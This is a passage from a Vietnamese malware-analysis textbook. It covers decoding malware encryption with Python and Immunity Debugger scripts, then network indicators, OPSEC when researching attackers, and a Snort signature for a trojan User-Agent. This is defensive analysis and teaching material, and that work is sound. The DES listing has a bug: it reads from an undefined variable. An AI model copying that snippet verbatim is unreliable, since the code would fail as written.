_Listing 13.8: Hàm Python mẫu cho thuật toán XOR bảo toàn NULL_

Hàm này nhận vào hai ký tự — một ký tự đầu vào và một ký tự khóa — và trả về ký tự đã được chuyển đổi. Để chuyển đổi một chuỗi hoặc nội dung dài hơn bằng mã hóa XOR một byte bảo toàn NULL, bạn chỉ cần gửi từng ký tự đầu vào cùng với cùng một ký tự khóa tới chương trình con này.

Base64 với bảng ký tự sửa đổi đòi hỏi một đoạn script đơn giản tương tự. Ví dụ, Đoạn mã _13.9_ hiển thị một đoạn script Python nhỏ chuyển đổi các ký tự Base64 tùy biến sang các ký tự Base64 tiêu chuẩn, sau đó sử dụng hàm chuẩn `decodestring` thuộc thư viện `base64` của Python.
```python
import string
import base64

s = ""
custom = "9ZABCDEFGHIJKLMNOPQRSTUVWXYabcdefghijklmnopqrstuvwxyz012345678+/"
Base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
ciphertext = 'TEgobxZobxZgGFPkb2O='

for ch in ciphertext:
    if (ch in Base64):
        s = s + Base64[string.find(custom, str(ch))]
    elif (ch == '='):
        s += '='

result = base64.decodestring(s)
```
_Listing 13.9: Script Python mẫu giải mã Base64 tùy biến_

Đối với các thuật toán mật mã tiêu chuẩn, tốt nhất nên sử dụng các bản cài đặt hiện có trong các thư viện mã nguồn. Một thư viện mật mã dựa trên Python có tên là **PyCrypto** (`[http://www.dlitz.net/software/pycrypto/](http://www.dlitz.net/software/pycrypto/)`) cung cấp nhiều hàm mật mã phong phú. Các thư viện tương tự cũng tồn tại cho các ngôn ngữ khác. Đoạn mã 13-10 hiển thị một chương trình Python mẫu thực hiện việc giải mã bằng thuật toán DES.
```python
from Crypto.Cipher import DES
import sys

obj = DES.new('password', DES.MODE_ECB)
cfile = open('encrypted_file', 'r')
cbuf = f.read()
print obj.decrypt(cbuf)
```
_Listing 13.10: Script Python mẫu giải mã DES_

Sử dụng thư viện PyCrypto đã import, đoạn script mở tệp bị mã hóa có tên là `encrypted_file` và giải mã nó bằng thuật toán DES ở chế độ Electronic Code Book (ECB) với mật khẩu là `password`.

Các mật mã khối (block ciphers) như DES có thể sử dụng các chế độ mã hóa (modes of operation) khác nhau để áp dụng một khóa duy nhất cho một luồng văn bản rõ có độ dài tùy ý, và chế độ này bắt buộc phải được chỉ định trong lời gọi hàm thư viện. Chế độ đơn giản nhất là chế độ ECB, áp dụng mật mã khối cho từng khối bản rõ một cách riêng rẽ.

Có rất nhiều biến thể khả dĩ để viết script cho các thuật toán giải mã. Các ví dụ trên cung cấp cho bạn hình dung về các loại tùy chọn sẵn có để tự viết các bộ giải mã riêng.

Việc tự viết lại phiên bản các thuật toán mật mã của kẻ tấn công thường chỉ dành cho trường hợp mật mã đơn giản hoặc đã được định nghĩa rõ ràng (đối với mật mã tiêu chuẩn). Một thách thức khó khăn hơn nhiều là giải quyết các trường hợp mà phép mã hóa quá phức tạp để mô phỏng lại và đồng thời lại không theo tiêu chuẩn nào.

#### c. Sử Dụng Công Cụ Đo Kiểm Để Giải Mã Tổng Quát

Trong phương pháp self-decoding, khi cố gắng để mã độc tự thực hiện giải mã, bạn bị giới hạn trong việc để mã độc chạy như bình thường và dừng nó lại đúng thời điểm. Nhưng không có lý do gì bạn phải tự giới hạn mình trong các đường dẫn thực thi thông thường của mã độc khi bạn hoàn toàn có thể điều hướng nó.

Một khi các chu trình mã hóa hoặc giải mã đã được cô lập và các tham số được hiểu rõ, ta hoàn toàn có thể khai thác mã độc để giải mã bất kỳ nội dung tùy ý nào bằng kỹ thuật **điều khiển/can thiệp mã động (instrumentation)**, qua đó sử dụng chính mã độc để chống lại nó một cách hiệu quả.

Hãy quay trở lại mẫu mã độc đã tạo ra nhiều tệp mã hóa lớn từ phần "Custom Encoding" trước đó. Đoạn mã 13-11 hiển thị phần header của hàm cùng các lệnh chính nằm trong vòng lặp mã hóa đã được hiển thị trước đó trong Hình _13.14_.
```
004011A9 push    ebp
004011AA mov     ebp, esp
004011AC sub     esp, 14h
004011AF push    ebx
004011B0 mov     [ebp+counter], 0
004011B7 mov     [ebp+NumberOfBytesWritten], 0
...
004011F5 loc_4011F5:                 ; CODE XREF: encrypted_Write+46j
004011F5 call    encrypt_Init
004011FA
004011FA loc_4011FA:                 ; CODE XREF: encrypted_Write+7Fj
004011FA mov     ecx, [ebp+counter]
004011FD cmp     ecx, [ebp+nNumberOfBytesToWrite]
00401200 jnb     short loc_40122A
00401202 mov     edx, [ebp+lpBuffer]
00401205 add     edx, [ebp+counter]
00401208 movsx   ebx, byte ptr [edx]
0040120B call    encrypt_Byte
00401210 and     eax, 0FFh
00401215 xor     ebx, eax
00401217 mov     eax, [ebp+lpBuffer]
0040121A add     eax, [ebp+counter]
0040121D mov     [eax], bl
0040121F mov     ecx, [ebp+counter]
00401222 add     ecx, 1
00401225 mov     [ebp+counter], ecx
00401228 jmp     short loc_4011FA
0040122A
0040122A loc_40122A:                 ; CODE XREF: encrypted_Write+57j
0040122A push    0                   ; lpOverlapped
0040122C lea     edx, [ebp+NumberOfBytesWritten]
```
_Listing 13.11: Mã từ mã độc tạo ra các tệp mã hóa dung lượng lớn_

Chúng ta biết được một số thông tin then chốt từ phân tích trước đó:

- Chúng ta biết rằng hàm `sub_40112F` khởi tạo quá trình mã hóa, và đây là điểm bắt đầu của quy trình mật mã, được gọi tại địa chỉ `0x4011F5`. Trong Đoạn mã _13.11_, hàm này được đặt nhãn là `encrypt_Init`.
- Chúng ta biết rằng khi chương trình chạy tới địa chỉ `0x40122A`, quá trình mã hóa đã hoàn tất.
- Chúng ta biết một số biến và đối số được sử dụng trong hàm mã hóa. Chúng bao gồm biến đếm (`counter`) và hai đối số: bộ đệm (`lpBuffer`) cần được mã hóa hoặc giải mã và độ dài (`nNumberOfBytesToWrite`) của bộ đệm.

Chúng ta có một tệp bị mã hóa, bản thân tệp mã độc, và kiến thức về cách hàm mã hóa của nó vận hành. Mục tiêu tổng quát là can thiệp (instrument) mã độc để nó nhận tệp mã hóa và chạy qua chính chu trình mà nó đã dùng để mã hóa. (Chúng ta giả định dựa trên việc sử dụng phép toán XOR rằng hàm này có tính thuận nghịch.) Mục tiêu này có thể được chia thành một chuỗi các nhiệm vụ:

1. Nạp mã độc vào trình gỡ lỗi (debugger).
2. Chuẩn bị tệp mã hóa để đọc và chuẩn bị một tệp đầu ra để ghi dữ liệu giải mã.
3. Cấp phát vùng nhớ bên trong debugger để mã độc có thể tham chiếu đến vùng nhớ đó.
4. Nạp tệp mã hóa vào vùng nhớ đã được cấp phát.
5. Thiết lập mã độc với các biến và đối số thích hợp cho hàm mã hóa.
6. Chạy hàm mã hóa để thực hiện việc giải mã.
7. Ghi vùng nhớ mới được giải mã ra tệp đầu ra.

Để thực hiện kỹ thuật instrumentation cho các tác vụ cấp cao này, chúng ta sẽ sử dụng **Immunity Debugger (ImmDbg)** (đã được giới thiệu trong Chương 9). ImmDbg cho phép sử dụng các script Python để lập trình điều khiển debugger. Đoạn script ImmDbg trong Đoạn mã _13.12_ là một mẫu khá tổng quát được viết để xử lý các tệp mã hóa tìm thấy cùng mã độc, từ đó thu lại văn bản gốc (plaintext).
```python
import immlib

def main():
    imm = immlib.Debugger()
    cfile = open("C:\\encrypted_file", "rb") # Mở tệp mã hóa để đọc
    pfile = open("decrypted_file", "w")       # Mở tệp để ghi dữ liệu rõ
    buffer = cfile.read()                     # Đọc tệp mã hóa vào bộ đệm
    sz = len(buffer)                          # Lấy kích thước bộ đệm
    membuf = imm.remoteVirtualAlloc(sz)       # Cấp phát bộ nhớ trong debugger
    imm.writeMemory(membuf, buffer)           # Sao chép vào bộ nhớ tiến trình đang debug

    imm.setReg("EIP", 0x004011A9)            # Bắt đầu tại hàm header
    imm.setBreakpoint(0x004011b7)            # Điểm dừng sau hàm header
    imm.Run()                                 # Thực thi phần header

    regs = imm.getRegs()
    imm.writeLong(regs["EBP"] + 16, sz)       # Thiết lập biến stack NumberOfBytesToWrite
    imm.writeLong(regs["EBP"] + 8, membuf)    # Thiết lập biến stack lpBuffer

    imm.setReg("EIP", 0x004011f5)            # Bắt đầu chu trình mã hóa
    imm.setBreakpoint(0x0040122a)            # Điểm dừng tại cuối vòng lặp mã hóa
    imm.Run()                                 # Thực thi vòng lặp mã hóa

    output = imm.readMemory(membuf, sz)       # Đọc kết quả đã giải mã
    pfile.write(output)                       # Ghi kết quả ra tệp
```
_Listing 13.12: Script giải mã mẫu trong ImmDbg_

Đoạn script trong Đoạn mã _13.12_ bám sát các nhiệm vụ cấp cao đã đề ra. `immlib` là thư viện Python, và lời gọi `immlib.Debugger()` cung cấp quyền truy cập bằng lập trình vào trình gỡ lỗi. Các lệnh `open` mở tệp để đọc tệp mã hóa và ghi phiên bản đã giải mã. Lưu ý rằng tùy chọn `rb` trong lệnh `open` đảm bảo các ký tự nhị phân được diễn giải chính xác (nếu không có cờ `b`, các ký tự nhị phân có thể bị coi là ký tự kết thúc tệp EOF, làm dừng việc đọc dữ liệu sớm hơn dự kiến).

Lệnh `imm.remoteVirtualAlloc` cấp phát bộ nhớ bên trong không gian tiến trình mã độc trong debugger. Đây là vùng nhớ mà mã độc có thể tham chiếu trực tiếp. Lệnh `cfile.read` đọc tệp mã hóa vào một bộ đệm Python, sau đó `imm.writeMemory` được dùng để sao chép vùng nhớ từ bộ đệm Python vào bộ nhớ của tiến trình đang được debug. Hàm `imm.getRegs` được dùng để lấy các giá trị thanh ghi hiện tại để có thể dùng thanh ghi EBP xác định vị trí của hai đối số then chốt: bộ đệm bộ nhớ cần được giải mã và kích thước của nó. Các đối số này được thiết lập bằng hàm `imm.writeLong`.

Việc chạy mã thực tế được thực hiện qua hai giai đoạn như sau, được điều hướng bằng cách đặt các breakpoint bằng `imm.setBreakpoint`, thiết lập EIP bằng `imm.setReg("EIP", location)`, và các lệnh `imm.Run()`:

- **Giai đoạn đầu:** Thực thi phần mở đầu của hàm để thiết lập stack frame và đặt biến đếm về 0. Giai đoạn này bắt đầu từ `0x004011A9` (nơi EIP được gán) cho đến `0x004011b7` (nơi breakpoint dừng thực thi).
- **Giai đoạn hai:** Thực thi chính vòng lặp mã hóa, trong đó debugger chuyển con trỏ lệnh đến phần đầu của hàm khởi tạo mật mã tại `0x004011f5`. Giai đoạn này chạy từ `0x004011f5` (nơi EIP được gán), lặp qua một lần cho mỗi byte được giải mã, cho đến khi thoát khỏi vòng lặp và chạm tới `0x0040122a` (nơi breakpoint dừng thực thi).

Cuối cùng, chính bộ đệm đó được đọc từ bộ nhớ tiến trình sang bộ nhớ Python (bằng `imm.readMemory`) và sau đó được ghi ra tệp (bằng `pfile.write`).

Việc sử dụng đoạn script này trong thực tế đòi hỏi một chút khâu chuẩn bị: Tệp cần giải mã phải nằm ở đúng vị trí mong đợi (`C:\encrypted_file`). Để chạy mã độc, bạn mở nó trong ImmDbg. Để chạy đoạn script, bạn chọn tùy chọn **Run Python Script** từ menu ImmLib (hoặc nhấn **ALT-F3**) và chọn tệp chứa script Python trong Đoạn mã 13-12. Khi bạn chạy tệp, tệp kết quả đầu ra (`decrypted_file`) sẽ xuất hiện trong thư mục gốc của ImmDbg (mặc định là `C:\Program Files\Immunity Inc\Immunity Debugger`), trừ khi bạn chỉ định đường dẫn một cách rõ ràng.

Trong ví dụ này, hàm mã hóa hoạt động hoàn toàn độc lập (stand-alone). Nó không có các thành phần phụ thuộc và tương đối dễ hiểu. Tuy nhiên, không phải tất cả các hàm mã hóa đều độc lập. Một số đòi hỏi phải khởi tạo, có thể là với một khóa bí mật. Trong một số trường hợp, khóa này thậm chí không nằm trong mã độc mà có thể được lấy từ một nguồn bên ngoài, chẳng hạn như qua mạng. Để hỗ trợ giải mã trong các trường hợp này, trước tiên cần phải chuẩn bị môi trường cho mã độc một cách chuẩn xác.

Khâu chuẩn bị có thể chỉ đơn thuần là để mã độc khởi động theo cách thông thường, nếu ví dụ như nó sử dụng một mật khẩu nhúng sẵn làm khóa. Trong các trường hợp khác, có thể cần phải tùy biến môi trường bên ngoài để quá trình giải mã hoạt động. Ví dụ, nếu mã độc giao tiếp bằng phương thức mã hóa được tạo mầm (seeded) từ một khóa mà mã độc nhận được từ server, ta có thể cần phải viết script thuật toán thiết lập khóa với dữ liệu khóa phù hợp hoặc giả lập một máy chủ gửi khóa về cho mã độc.

## Chương 14: Chữ Ký Mạng Định Hướng Phân Tích Mã Độc (Malware-Focused Network Signatures)

Mã độc sử dụng kết nối mạng rất nhiều, và trong chương này, chúng tôi sẽ giải thích cách phát triển các biện pháp đối phó dựa trên mạng (network-based countermeasures) một cách hiệu quả. Biện pháp đối phó là các hành động được thực hiện để phản hồi lại các mối đe dọa, nhằm phát hiện hoặc ngăn chặn hoạt động độc hại. Để phát triển các biện pháp đối phó hiệu quả, bạn phải hiểu cách mã độc sử dụng mạng và cách biến những thách thức mà các tác giả mã độc phải đối mặt thành lợi thế của bạn.

### 14.1 Biện Pháp Đối Phó Tại Tầng Mạng (Network Countermeasures)

Các thuộc tính cơ bản của hoạt động mạng — chẳng hạn như địa chỉ IP, cổng TCP/UDP, tên miền và nội dung lưu lượng (traffic content) — được các thiết bị mạng và thiết bị bảo mật sử dụng để thiết lập các tầng phòng thủ. Tường lửa và router có thể được dùng để hạn chế quyền truy cập vào mạng dựa trên địa chỉ IP và cổng. Máy chủ DNS có thể được cấu hình để định tuyến lại các tên miền độc hại đã biết đến một máy chủ nội bộ, được gọi là **sinkhole**. Các proxy server có thể được cấu hình để phát hiện hoặc ngăn chặn truy cập vào các tên miền cụ thể.

Hệ thống phát hiện xâm nhập (IDS), hệ thống ngăn ngừa xâm nhập (IPS), và các thiết bị bảo mật khác như email proxy và web proxy cho phép triển khai các biện pháp đối phó dựa trên nội dung (content-based countermeasures). Các hệ thống phòng thủ dựa trên nội dung cho phép kiểm tra sâu hơn vào lưu lượng mạng, bao gồm các network signature được sử dụng bởi IDS và các thuật toán được mail proxy sử dụng để phát hiện thư rác. Vì các chỉ số mạng cơ bản như địa chỉ IP và tên miền được hầu hết các hệ thống phòng thủ hỗ trợ, chúng thường là những mục đầu tiên mà một nhà phân tích mã độc sẽ tiến hành điều tra.

> **GHI CHÚ:** Thuật ngữ thường dùng "hệ thống phát hiện xâm nhập" (IDS) hiện đã khá lỗi thời. Các signature ngày nay được sử dụng để phát hiện nhiều thứ hơn là chỉ các vụ xâm nhập, chẳng hạn như hành vi quét cổng (scanning), liệt kê và lập hồ sơ dịch vụ (service enumeration and profiling), sử dụng giao thức không theo chuẩn, và tín hiệu beaconing phát ra từ mã độc đã cài đặt. IPS có mối quan hệ chặt chẽ với IDS, điểm khác biệt là trong khi IDS chỉ được thiết kế để phát hiện lưu lượng độc hại, thì IPS được thiết kế để vừa phát hiện vừa ngăn chặn lưu lượng độc hại đó truyền qua mạng.

#### a. Quan Sát Mã Độc Trong Môi Trường Tự Nhiên

Bước đầu tiên trong phân tích mã độc không nên là chạy ngay mã độc trong môi trường lab của bạn, hoặc mổ xẻ mã độc và bắt đầu phân tích mã disassembly. Thay vào đó, trước tiên bạn nên xem lại bất kỳ dữ liệu nào bạn đã có sẵn về mã độc. Thỉnh thoảng, nhà phân tích được giao một mẫu mã độc (hoặc tệp thực thi khả nghi) mà không có bất kỳ ngữ cảnh nào, nhưng trong hầu hết các tình huống, bạn đều có thể thu thập thêm dữ liệu bổ sung. Cách tốt nhất để bắt đầu phân tích mã độc tập trung vào mạng là khai thác các bản ghi log, cảnh báo (alerts), và các bản ghi bắt gói tin (packet captures - PCAP) vốn đã được tạo ra bởi mã độc trước đó.

Có những lợi thế rõ rệt đối với thông tin đến từ các mạng thực tế, thay vì từ môi trường phòng thí nghiệm:

- **Thông tin thu thập trực tiếp (live-captured)** sẽ cung cấp cái nhìn chân thực nhất về hành vi thực tế của một ứng dụng độc hại. Mã độc có thể đã được lập trình sẵn để phát hiện các môi trường lab.
- **Thông tin có sẵn từ mã độc đang hoạt động** có thể mang lại những hiểu biết sâu sắc giúp đẩy nhanh quá trình phân tích. Lưu lượng thực tế cung cấp thông tin về mã độc ở cả hai đầu mút kết nối (client và server), trong khi trong môi trường lab, nhà phân tích thường chỉ có quyền truy cập vào thông tin của một đầu mút. Việc phân tích nội dung mà mã độc nhận được (các thường trình phân tích cú pháp - parsing routines) thường khó khăn hơn so với việc phân tích nội dung do chính mã độc tạo ra. Do đó, lưu lượng mẫu hai chiều có thể đóng vai trò làm mồi nhử khởi đầu (seed) cho việc phân tích các hàm parsing của mẫu mã độc trong tay nhà phân tích.
- Ngoài ra, khi xem xét thông tin một cách thụ động, **hoàn toàn không có rủi ro nào về việc các hoạt động phân tích của bạn bị rò rỉ tới kẻ tấn công**. Vấn đề này sẽ được giải thích chi tiết trong phần _"OPSEC = Operations Security"_ tiếp theo.

#### b. Các Dấu Hiệu Hoạt Động Độc Hại Trên Mạng

Giả sử chúng ta nhận được một tệp thực thi mã độc để phân tích và chúng ta chạy nó trong môi trường lab, đồng thời theo dõi sát sao các sự kiện mạng. Chúng ta phát hiện ra rằng mã độc thực hiện một yêu cầu DNS cho `[www.badsite.com](https://www.badsite.com)`, sau đó thực hiện một yêu cầu HTTP GET trên cổng 80 tới địa chỉ IP được trả về trong bản ghi DNS. Ba mươi giây sau, nó cố gắng gửi beacon ra ngoài tới một địa chỉ IP cụ thể mà không thực hiện truy vấn DNS. Tại thời điểm này, chúng ta có ba chỉ báo tiềm năng về hoạt động độc hại: một tên miền đi kèm địa chỉ IP đã phân giải, một địa chỉ IP độc lập, và một yêu cầu HTTP GET đi kèm URI cùng nội dung, như được hiển thị trong Bảng _14.1_.

| **Loại thông tin (Information type)** | **Chỉ số nhận diện (Indicator)**                                                          |
| ------------------------------------- | ----------------------------------------------------------------------------------------- |
| Tên miền (đi kèm IP đã phân giải)     | `[www.badsite.com](https://www.badsite.com) (123.123.123.10)`                             |
| Địa chỉ IP                            | `123.64.64.64`                                                                            |
| Yêu cầu GET                           | `GET /index.htm HTTP 1.1`<br>`Accept: */*`<br>`User-Agent: Wefa7e`<br>`Cache-Control: no` |

_Table 14.1: Mẫu các chỉ báo mạng về hoạt động độc hại_

Chúng ta có thể sẽ muốn nghiên cứu sâu hơn về các chỉ báo này. Việc tìm kiếm trên Internet có thể tiết lộ mã độc được tạo ra từ bao giờ, lần đầu tiên nó được phát hiện là khi nào, mức độ phổ biến ra sao, ai có thể là tác giả, và mục tiêu của kẻ tấn công là gì. Sự thiếu vắng thông tin trên mạng cũng là một dấu hiệu mang tính gợi ý, vì nó có thể ám chỉ sự tồn tại của một cuộc tấn công có chủ đích (targeted attack) hoặc một chiến dịch hoàn toàn mới.

Tuy nhiên, trước khi vội vã truy cập công cụ tìm kiếm ưa thích của bạn, điều quan trọng là phải hiểu những rủi ro tiềm ẩn liên quan đến các hoạt động nghiên cứu trực tuyến của bạn.

#### c. An Toàn Tác Nghiệp (OPSEC) Trong Phân Tích

Khi sử dụng Internet để nghiên cứu, điều quan trọng là phải hiểu khái niệm **an toàn hoạt động (Operations Security - OPSEC)**. OPSEC là một thuật ngữ được chính phủ và quân đội sử dụng để mô tả quá trình ngăn chặn đối phương thu thập các thông tin nhạy cảm.

Một số hành động bạn thực hiện trong khi điều tra mã độc có thể vô tình báo cho tác giả mã độc biết rằng bạn đã phát hiện ra mã độc của chúng, hoặc thậm chí có thể để lộ thông tin cá nhân của bạn cho kẻ tấn công. Ví dụ, nếu bạn đang phân tích mã độc tại nhà, và mã độc đó ban đầu được gửi vào mạng doanh nghiệp của bạn qua email, kẻ tấn công có thể nhận thấy một yêu cầu DNS được tạo từ một dải địa chỉ IP nằm ngoài dải IP thông thường của công ty bạn. Có nhiều cách tiềm ẩn để kẻ tấn công nhận biết hoạt động điều tra, chẳng hạn như:

- Gửi một email lừa đảo có chủ đích (spear-phishing) chứa liên kết tới một cá nhân cụ thể và theo dõi các nỗ lực truy cập vào liên kết đó từ các địa chỉ IP nằm ngoài khu vực địa lý dự kiến.
- Thiết kế một exploit để tạo một liên kết đã mã hóa trong phần bình luận trên blog (hoặc một số trang web công khai có thể chỉnh sửa tự do khác), qua đó vô tình tạo ra một dấu vết kiểm tra lây nhiễm riêng tư nhưng có thể truy cập công khai.
- Nhúng một tên miền chưa sử dụng vào mã độc và theo dõi các nỗ lực phân giải tên miền đó.

Nếu kẻ tấn công nhận thức được rằng chúng đang bị điều tra, chúng có thể thay đổi chiến thuật và biến mất hoàn toàn.

### 14.2 Kỹ Thuật Điều Tra Trực Tuyến An Toàn Về Kẻ Tấn Công

Lựa chọn an toàn nhất là không sử dụng Internet để điều tra cuộc tấn công, nhưng điều này thường không thực tế. Nếu bạn bắt buộc phải dùng Internet, bạn nên sử dụng **chiến thuật gián tiếp (indirection)** để tránh khỏi tầm mắt theo dõi của kẻ tấn công.

#### a. Chiến Thuật Gián Tiếp (Indirection Tactics)

Một chiến thuật gián tiếp là sử dụng một dịch vụ hoặc cơ chế được thiết kế để ẩn danh, chẳng hạn như Tor, một open proxy, hoặc một dịch vụ ẩn danh trên nền web. Mặc dù các loại dịch vụ này có thể giúp bảo vệ quyền riêng tư của bạn, chúng thường để lại manh mối cho thấy bạn đang cố tình che giấu điều gì đó, và do đó có thể khơi dậy sự nghi ngờ của kẻ tấn công.

Một chiến thuật khác là sử dụng một máy chuyên dụng, thường là một máy ảo, cho công việc nghiên cứu. Bạn có thể che giấu vị trí chính xác của máy chuyên dụng bằng một số cách, chẳng hạn như:

- Sử dụng kết nối mạng di động (cellular connection).
- Thiết lập đường hầm kết nối thông qua SSH hoặc VPN qua một hạ tầng từ xa.
- Sử dụng một máy ảo từ xa tạm thời chạy trên các dịch vụ đám mây, chẳng hạn như Amazon Elastic Compute Cloud (Amazon EC2).

Một công cụ tìm kiếm hoặc trang web được thiết kế cho việc nghiên cứu Internet cũng có thể cung cấp tính gián tiếp. Tìm kiếm trên công cụ tìm kiếm thường khá an toàn, ngoại trừ hai lưu ý:

- Việc đưa một tên miền vào truy vấn tìm kiếm mà công cụ trước đây chưa từng biết đến có thể kích hoạt hoạt động của các con bọ thu thập dữ liệu (crawler).
- Nhấp vào kết quả tìm kiếm, ngay cả đối với các tài nguyên đã được lưu trong bộ nhớ cache, vẫn sẽ kích hoạt các liên kết thứ cấp và liên kết tải kèm theo của trang web đó.

Phần tiếp theo sẽ giới thiệu một số trang web cung cấp thông tin tổng hợp về các thực thể mạng, chẳng hạn như bản ghi whois, tra cứu DNS (bao gồm cả các bản ghi tra cứu lịch sử), và tra cứu reverse DNS.

#### b. Thu Thập Thông Tin Tên Miền và Địa Chỉ IP


*Hình 14.1: Các trường thông tin Whois và bản ghi DNS cần thu thập khi điều tra hạ tầng mạng C2.*

Hai yếu tố cơ bản cấu thành nên bức tranh toàn cảnh của Internet là địa chỉ IP và tên miền. DNS dịch các tên miền như `[www.yahoo.com](https://www.yahoo.com)` thành địa chỉ IP (và ngược lại). Không có gì đáng ngạc nhiên, mã độc cũng sử dụng DNS để trông giống như lưu lượng truy cập thông thường, đồng thời duy trì tính linh hoạt và khả năng phục hồi khi vận hành các hoạt động độc hại của nó.

Hình _14.1_ cho thấy các loại thông tin có sẵn về tên miền DNS và địa chỉ IP. Khi một tên miền được đăng ký, thông tin đăng ký như tên miền, các name server của nó, các mốc thời gian liên quan và thông tin liên hệ của đơn vị đăng ký tên miền được lưu trữ tại một nhà đăng ký tên miền (domain registrar). Địa chỉ Internet có các cơ quan đăng ký được gọi là Cơ quan đăng ký Internet khu vực (Regional Internet Registries - RIR), nơi lưu trữ các dải địa chỉ IP, sự phân bổ của các dải đó cho các tổ chức và nhiều loại thông tin liên hệ khác nhau. Thông tin DNS đại diện cho ánh xạ giữa tên miền và địa chỉ IP. Ngoài ra, siêu dữ liệu (metadata) cũng có sẵn, bao gồm danh sách đen (blacklist - có thể áp dụng cho IP hoặc tên miền) và thông tin vị trí địa lý (chỉ áp dụng cho địa chỉ IP).

Mặc dù cả cơ sở dữ liệu tên miền và IP đều có thể được truy vấn thủ công bằng các công cụ dòng lệnh, cũng có rất nhiều trang web miễn phí thực hiện các tra cứu cơ bản này cho bạn. Việc sử dụng các trang web để truy vấn mang lại một số lợi thế:

- Nhiều trang web sẽ tự động thực hiện các tra cứu liên đới tiếp theo.
- Chúng cung cấp một mức độ ẩn danh nhất định.
- Chúng thường xuyên cung cấp thêm siêu dữ liệu dựa trên thông tin lịch sử hoặc truy vấn từ các nguồn thông tin khác, bao gồm blacklist và thông tin địa lý của địa chỉ IP.


Hình _14.2_ là một ví dụ về hai yêu cầu whois cho các tên miền được sử dụng làm máy chủ C2 cho các backdoor trong các cuộc tấn công có chủ đích. Mặc dù các backdoor khác nhau, nhưng tên được liệt kê trong thông tin đăng ký lại hoàn toàn giống nhau cho cả hai tên miền.

Ba trang web tra cứu xứng đáng được đề cập đặc biệt:

- **DomainTools (`[http://www.domaintools.com/](http://www.domaintools.com/)`):** Cung cấp các bản ghi whois lịch sử, tra cứu reverse IP hiển thị tất cả các tên miền phân giải về một địa chỉ IP cụ thể, và reverse whois cho phép tra cứu bản ghi whois dựa trên siêu dữ liệu thông tin liên hệ. Một số dịch vụ do DomainTools cung cấp yêu cầu tư cách thành viên và một số dịch vụ yêu cầu trả phí.
- **RobTex (`[http://www.robtex.com/](http://www.robtex.com/)`):** Cung cấp thông tin về nhiều tên miền cùng trỏ đến một địa chỉ IP duy nhất và tích hợp nhiều thông tin khác, chẳng hạn như liệu một tên miền hoặc địa chỉ IP có nằm trong một số blacklist hay không.
- **BFK DNS logger (`[http://www.bfk.de/bfk_dnslogger_en.html](http://www.bfk.de/bfk_dnslogger_en.html)`):** Sử dụng thông tin giám sát DNS thụ động (passive DNS). Đây là một trong số ít tài nguyên miễn phí thực hiện loại giám sát này. Có một số nguồn passive DNS khác yêu cầu trả phí hoặc chỉ giới hạn cho các nhà nghiên cứu bảo mật chuyên nghiệp.

### 14.3 Biện Pháp Đối Phó Dựa Trên Nội Dung (Content-Based Countermeasures)

Các chỉ số cơ bản như địa chỉ IP và tên miền có thể có giá trị để phòng thủ trước một phiên bản mã độc cụ thể, nhưng giá trị của chúng thường ngắn ngủi, vì kẻ tấn công rất thành thạo trong việc nhanh chóng chuyển sang các địa chỉ hoặc tên miền khác. Mặt khác, các chỉ số dựa trên nội dung (content-based indicators) có xu hướng có giá trị hơn và tồn tại lâu hơn, vì chúng nhận diện mã độc bằng các đặc tính cốt lõi và căn bản hơn.

Hệ thống IDS dựa trên chữ ký (signature-based IDS) là hệ thống lâu đời nhất và được triển khai phổ biến nhất để phát hiện hoạt động độc hại qua lưu lượng mạng. Cơ chế phát hiện của IDS phụ thuộc vào kiến thức về việc hoạt động độc hại trông như thế nào. Nếu bạn biết nó trông như thế nào, bạn có thể tạo chữ ký cho nó và phát hiện khi nó xuất hiện trở lại. Một chữ ký lý tưởng có thể gửi cảnh báo mỗi khi có điều gì đó độc hại xảy ra (dương tính thật - true positive), nhưng sẽ không tạo cảnh báo cho bất kỳ lưu lượng nào trông giống mã độc nhưng thực chất lại hợp lệ (dương tính giả - false positive).

#### a. Hệ Thống Phát Hiện Xâm Nhập Snort (Snort IDS)

Một trong những hệ thống IDS phổ biến nhất là **Snort**. Snort được sử dụng để tạo một chữ ký hoặc quy tắc (rule) liên kết một chuỗi các thành phần (được gọi là các _rule options_) vốn đều phải thỏa mãn thì quy tắc mới được kích hoạt. Các rule option chính được chia thành:

- Các tùy chọn nhận diện phần tử nội dung (được gọi là _payload rule options_ trong thuật ngữ Snort).
- Các tùy chọn nhận diện các phần tử không liên quan đến nội dung (_nonpayload rule options_).

Ví dụ về các nonpayload rule option bao gồm một số cờ (flags), các giá trị cụ thể của TCP hoặc IP header, và kích thước payload của gói tin. Chẳng hạn, tùy chọn `flow:established,to_client` chọn các gói tin là một phần của phiên TCP bắt nguồn từ server và hướng tới client. Một ví dụ khác là `dsize:200`, chọn các gói tin có dung lượng payload đúng bằng 200 byte.

Hãy cùng tạo một rule Snort cơ bản để phát hiện mẫu mã độc ban đầu mà chúng ta đã xem xét ở phần trước của chương này (đã được tóm tắt trong Bảng _14.1_). Mã độc này tạo ra lưu lượng mạng bao gồm một yêu cầu HTTP GET.

Khi các trình duyệt và ứng dụng HTTP khác gửi yêu cầu, chúng sẽ điền vào trường header `User-Agent` để thông báo về ứng dụng đang được sử dụng cho yêu cầu đó. Một User-Agent thông thường của trình duyệt bắt đầu bằng chuỗi `Mozilla` (do quy ước lịch sử), và có thể trông giống như `Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)`. User-Agent này cung cấp thông tin về phiên bản của trình duyệt và hệ điều hành.

User-Agent được sử dụng bởi mã độc mà chúng ta đã thảo luận trước đó là `Wefa7e`, đây là một chuỗi rất đặc trưng và có thể được sử dụng để nhận diện lưu lượng do mã độc tạo ra. Chữ ký sau đây nhắm vào chuỗi User-Agent bất thường đã được tạo ra từ mẫu mã độc thử nghiệm:
```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"TROJAN Malicious User-Agent"; content:"|0d 0a|User-Agent\: Wefa7e"; classtype:trojan-activity; sid:2000001; rev:1;)
```
Các rule của Snort bao gồm hai phần: **rule header** và **rule options**.

